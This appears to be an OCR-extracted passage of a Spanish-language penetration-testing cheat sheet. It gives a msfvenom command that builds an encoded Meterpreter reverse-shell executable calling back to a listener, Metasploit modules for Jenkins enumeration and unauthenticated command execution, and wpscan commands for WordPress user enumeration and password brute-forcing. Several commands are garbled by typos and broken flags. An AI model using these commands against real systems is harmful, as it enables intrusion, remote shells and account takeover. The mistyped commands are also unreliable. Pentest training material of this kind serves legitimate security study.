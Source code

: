         ```bash
        $ msfvenom -p windows/meterpreter/
        reverse_tcp -i 5 -e x86/shikata_ga_nai -f
        exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
        ```



#### **Pentesting CI/CD**
  *   **Jenkins Security**

      Enumeration

      ```sql
      msf> use auxiliary/scanner/http/jenkins_enum
      ```

      Execute commands without authentication

      ```sql
      msf> use auxiliary/scanner/http/jenkins_command
      ```
  * Github
  * Gitlab
  * Bitbucket
  * Gitea

#### **Gestor de contenido:WordPress**


    **Enumeración general WordPress**


    Enumerar usuarios

    ```bash
    wpscan --url <http://exmaple.com> -e u
    -u : username
    -p: password
    ```

    Fuerza burta usuario

    ```bash
    wpscan --url <http://exmaple.com> -U usuario -P /usr/share/wordlists/rockyou.txt
    ```

    Plugin scan

    ```bash
    wpscan --uel <http://example.con> -e u,p --api-toke='API'
    # La API la sacanos del perfil de nuestra cuenta de Webscan

    wpscan --uel <http://example.con> -e u,p --api-toke='API' --plugibs.detection aggressive -L 50

    # Modo deteccion agresivo con 50 hilos
    ```
